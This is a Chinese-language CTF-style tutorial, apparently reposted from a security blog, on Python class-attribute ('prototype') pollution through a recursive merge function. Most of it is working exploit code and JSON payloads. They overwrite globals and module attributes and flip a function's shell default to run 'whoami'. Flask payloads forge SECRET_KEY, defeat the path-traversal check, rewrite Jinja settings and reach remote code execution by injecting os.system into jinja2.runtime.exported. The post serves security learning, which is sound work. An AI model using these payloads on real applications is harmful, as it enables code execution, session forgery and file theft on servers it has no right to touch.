

# 0x01 Intro

本文搬运/参考自[Python原型链污染变体(prototype-pollution-in-python) - 跳跳糖 (tttang.com)](https://tttang.com/archive/1876/)

Cooooool！！！学习一波

类似JavaScript中的原型链污染，Python中也存在对类属性值的污染。但由于Python的安全设定和部分特殊属性的限制，不是所有类的所有属性都可以被污染，且污染只对类属性起作用、对类方法无效。

下面是Python版本的merge函数，用于污染类属性

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


class father:
    secret = 'flag'


class son_a(father):
    pass


class son_b(father):
    pass


obj = son_b()
payload = {
    "__class__": {    # 实例的class属性  <class '__main__.son_b'>
        "__base__": {    # 获取父类  <class '__main__.father'>
            "secret": "hacker!"
        }
    }
}
print(son_a.secret)
print(obj.secret)
merge(payload, obj)
print(son_a.secret)
print(obj.secret)
```

还记得JavaScript中原型是通过`__proto__`关联起来的吗，Python中也有类似的，比如通过`__base__`能找到其父类。而子类会继承父类中的属性，我们便可以通过子类溯源到父类污染其属性值。

上面污染的是父类自定义的属性secret，其实一些内置的特殊属性也可以污染

```python
class father:
    secret = 'flag'


class son_a(father):
    pass


class son_b(father):
    pass


obj = son_b()
payload = {
    "__class__": {    # 实例的class属性  <class '__main__.son_b'>
        "__base__": {    # 获取父类  <class '__main__.father'>
            "__str__": "Tada!Polluted"
        }
    }
}
print(father.__str__)  # <slot wrapper '__str__' of 'object' objects>
merge(payload, obj)
print(father.__str__)  # Tada!Polluted
```

前面说过不是所有类属性都可以被污染，如`Object`的属性

```python
payload = {
    "__class__": {
        "__str__": "Polluted ~"
    }
}
# TypeError: can't set attributes of built-in/extension type 'type'
merge(payload, object)
```

# 0x02 More Exploit

上面的示例中，污染类属性是通过`__base__`属性查找其父类，若目标类和切入类没有继承关系，这种方法就显得十分无力。下面让我们拓宽思路，格局打开，联系一下SSTI中学到的python特性

## 全局变量获取

Python中函数或类方法均具有一个`__globals__`属性，其以字典形式记录了类方法所申请的变量空间中的全局变量。

```python
secret = 'flag'


def test():
    pass


class A:
    def __init__(self):
        pass


print(test.__globals__ == globals() == A.__init__.__globals__) # True
print(globals()['secret']) # flag
```

看看全局变量有哪些

> `{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x000001A2A5D86CD0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'D:\\Code\\Python\\Script\\test.py', '__cached__': None, 'secret': 'flag', 'test': <function test at 0x000001A2A5DCF280>, 'A': <class '__main__.A'>}`

因此可以通过`__globals__`污染到无继承关系的类属性或全局变量

```python
class a:
    secret_class_var = "secret"


class b:
    def __init__(self):
        pass
```

尝试污染a类的`secret_class_var`属性

```python
class a:
    secret_class_var = "secret"


class b:
    def __init__(self):
        pass


def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


obj = b()
payload = {
    "__init__": {
        "__globals__": {
            "a": {
                "secret_class_var": "polluted~"
            }
        }
    }
}
print(a.secret_class_var)  # secret
merge(payload, obj)
print(a.secret_class_var)  # polluted~
```

## 已加载模块获取

有些时候我们需要污染其他模块下类的属性，而我们的操作又局限在入口文件，这时候需要对其他加载过的模块来获取了。

### 加载关系简单

同样是通过`__globals__`找到该模块`import`进来的模块

```python
# target.py
secret = 123


class target_class:
    secret_var = 'flag'
```

```python
import target


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


obj = cls()
payload = {
    "__init__": {
        "__globals__": {
            "target": {
                "secret": 321,
                "target_class": {
                    'secret_var': 'polluted~'
                }
            }
        }
    }
}
print(target.secret)  # 123
print(target.target_class.secret_var)  # flag
merge(payload, obj)
print(target.secret)  # 321
print(target.target_class.secret_var)  # polluted~

```

### 加载关系复杂

CTF等实际环境中往往是多层模块导入，甚至是内置模块或第三方模块。这时候若层层查找`import`显得困难。（`__globals__`找到`import`进来的模块后继续找`__globals__`）

`sys`模块的`modules`属性以字典的形式包含了程序自开始运行时所加载过的模块。

```python
import target
import sys


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


obj = cls()
payload = {
    "__init__": {
        "__globals__": {
            "sys": {
                "modules": {
                    "target": {
                        "secret": "No Way~",
                        "target_class": {
                            "secret_var": "Polluted~"
                        }
                    }
                }
            }
        }
    }
}
print(target.secret)  # 123
print(target.target_class.secret_var)  # flag
merge(payload, obj)
print(target.secret)  # No Way~
print(target.target_class.secret_var)  # Polluted~
```

显然可以看出来上面有一个苛刻的要求就是要在`import sys`的情况下才能使用，我们还是得去找`import sys`的模块，对问题解决没有多少优化。

Python中有类似Java的`ClassLoader`的模块，`loader`类是Python中的模块加载器，其位于内置模块`importlib`中，且该模块下所有py文件均引入了`sys`模块。

模块内会有一个`__loader__`内置属性，其实上面打印全局变量的时候已经看到了（实际上在`debug`模式下主文件的`__loader__`会为`None`）

```python
payload = {
    "__init__": {
        "__globals__": {
            "__loader__": {
                "sys": {
                    "target": {
                        "secret": "No Way~",
                        "target_class": {
                            "secret_var": "Polluted~"
                        }
                    }
                }
            }
        }
    }
}
```

成功污染！

上面打印`__globals__`还发现了一个属性`__spec__`，`__spec__`内置属性在`Python 3.4`版本引入，其包含了关于类加载时的信息，本身是定义在`Lib/importlib/_bootstrap.py`的类`ModuleSpec`，显然因为定义在`importlib`模块下的`py`文件，所以可以直接采用`<模块名>.__spec__.__init__.__globals__['sys']`获取到`sys`模块

有这样的相对长的`Payload`：`<模块名>.__spec__.loader.__init__.__globals__['sys']`

## 实际环境中的merge

`Pydash`模块中的`set_`和`set_with`函数具有如上实例中`merge`函数类似的类属性赋值逻辑，能够实现污染攻击。

# 0x03 Extend Attack

## 函数形参默认值替换

函数的两个内置属性：`__defaults__`、`__kwdefaults__`

`__defaults__`以元组的形式按从左到右的顺序收录了函数的位置或键值形参的默认值

注意：这里的位置或键值形参会受python的参数语法影响，只能取不受`/`和`*`影响的区间。

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__defaults__)
#(2, 3)
print(func_b.__defaults__)
#(2, 3)
print(func_c.__defaults__)
#(2,)
print(func_d.__defaults__)
#(2,)
```

稍有问题的是该属性值要求为元组类型，但通常的JSON格式就没有元组这一数据结构，需要环境有合适的解析输入的方式。

`__kwdefaults__`以字典的形式按从左到右的顺序收录了函数键值形参的默认值

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__kwdefaults__)
#None
print(func_b.__kwdefaults__)
#None
print(func_c.__kwdefaults__)
#{'var_3': 3}
print(func_d.__kwdefaults__)
#{'var_3': 3}
```

```python
def evilFunc(arg_1, *, shell=False):
    if not shell:
        print(arg_1)
    else:
        print(__import__("os").popen(arg_1).read())


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


instance = cls()
payload = {
    "__init__": {
        "__globals__": {
            "evilFunc": {
                "__kwdefaults__": {
                    "shell": True
                }
            }
        }
    }
}
evilFunc('whoami')   # whoami
merge(payload, instance)
evilFunc('whoami')   # desktop-fj8fo16\panda
```

## `os.environ`

可以实现多种利用方式，如`LD_PRELOAD`与文件上传`.so`实现劫持

## `flask`下的相关属性

### `SECRET_KEY`

决定`flask`的`session`生成的重要参数，知道该参数可以实现`session`任意伪造

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "[+]Config:%s"%(app.config['SECRET_KEY'])


app.run(host="0.0.0.0")
```

```python
payload = {
    "__init__": {
        "__globals__": {
            "app": {
                "config": {
                    "SECRET_KEY": "polluted~"
                }
            }
        }
    }
}
```

### `_got_first_request`

用于判定是否某次请求为自`Flask`启动后第一次请求，会影响装饰器`app.before_first_request`的调用，只有`_got_first_request`值为假时其才会调用

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

`before_first_request`修饰的`init`函数只会在第一次访问前被调用，而其中读取`flag`的逻辑又需要访问路由`/`后才能触发，这就构成了矛盾。所以需要使用`payload`在访问`/`后重置`_got_first_request`属性值为假，这样`before_first_request`才会再次调用。

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "_got_first_request": false
            }
        }
    }
}
```

访问两次即可。

### `_static_url_path`&`_static_folder`

`_static_folder`这个属性中存放的是`flask`中静态目录的值，默认该值为`static`。访问`flask`下的资源可以采用如`http://domain/static/xxx`去访问

`_static_url_path`是访问静态文件的url路径规则，默认也是`static`

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "_static_folder": "./"
            }
        }
    }
}
```

接着访问`/static/flag`

### `os.path.pardir`

这个`os`模块下的变量会影响`flask`的模板渲染函数`render_template`的解析

```python
from flask import Flask, request, render_template
import json
import os

app = Flask(__name__)


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


class cls:
    def __init__(self):
        pass


instance = cls()


@app.route('/', methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but u just can use /file to vist ./templates/file"


@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)


app.run(host="0.0.0.0")
```

`render_template`当然会做目录穿越的防御，这个函数将会把传入的模板路径按照`/`进行分割，`os.path.pardir`值即为`..`，函数会判断分割后的内容等不等于`os.path.pardir`，若等于则会抛出异常。

将其修改为无关的

```python
{
    "__init__": {
        "__globals__": {
            "os": {
                "path": {
                    "pardir": "!"
                }
            }
        }
    }
}
```

显然这里比较鸡肋的问题也是得当前模块导入`os`

### jinjia语法重写

在默认的规则规则下，常用`Jinja`语法标识符有`{{ Code }}`、``、`{# Code #}`。而`Flask`官方文档中明确告知了，这些语法标识符均是可以依照`Jinja`中修改的

```html
<html>
<h1>Look this -> [[flag]] <- try to make it become the real flag</h1>
<body>
</body>
</html>
```

```python
from flask import Flask, request, render_template
import json

app = Flask(__name__)


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


class cls():
    def __init__(self):
        pass


instance = cls()


@app.route('/', methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index', methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag=open("flag", "rt").read())


app.run(host="0.0.0.0")
```

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "jinja_env" :{
                 "variable_start_string":"[[",
                 "variable_end_string":"]]"
               }        
            }
        }
    }
}
```

> 实际上`Flask`默认会对一定数量内的模板文件编译渲染后进行缓存，下次访问时若有缓存则会优先渲染缓存，所以输入`payload`污染之后虽然语法标识符被替换了，但渲染的内容还是按照污染前语生成的缓存，由于缓存编译时并没有存在`flag`变量，所以自然没有被填充`flag`

所以需要服务重启，先污染，之后再访问模板

实际上函数、变量、过滤器都能自定义地添加到`Jinjia语法解析环境`

```html
<html>
<h1>{{flag if permission else "No way!"}}</h1>
<body>    
</body>
</html>
```

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "jinja_env" :{
                    "globals": {
                        "permission": true
                    }
               }
            }
        }
    }
}
```

注意：这里是`globals`，不是`__globals__`

在`flask`中如使用`render_template`渲染一个模板实际上经历了多个阶段的处理，其中一个阶段是对模板中的`Jinja`语法进行解析转化为`AST`，而在语法树的根部即`Lib/site-packages/jinja2/compiler.py`中`CodeGenerator`类的`visit_Template`方法纯在一段有趣的逻辑



该逻辑会向输出流写入一段拼接的代码（输出流中代码最终会被编译进而执行），注意其中的`exported_names`变量，该变量为`.runtime`模块（即`Lib/site-packages/jinja2/runtime.py`）中导入的变量`exported`和`async_exported`组合后得到，这就意味着我们可以通过污染`.runtime`模块中这两个变量实现RCE。由于这段逻辑是模板文件解析过程中必经的步骤之一，所以这就意味着只要渲染任意的文件均能通过污染这两属性实现RCE。

```html
<html>
<h1>Try To RCE Me</h1>
<body>    
</body>
</html>
```

```python
{
    "__init__": {
        "__globals__": {
            "__loader__": {
                "__init__": {
                    "__globals__": {
                        "sys": {
                            "modules": {
                                "jinja2": {
                                    "runtime": {
                                        "exported": [
                                            "*;__import__('os').system('calc');#"
                                        ]
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

但是需要注意插入`payload`的位置是AST的根部分，是作为模板编译时的处理代码的一部分，同样受到模板缓存的影响，也就是说这里插入的`payload`只会在模板在第一次访问时触发

若要读取flag，可将其写入`/static/flag`（`cp /flag ./static/flag`）
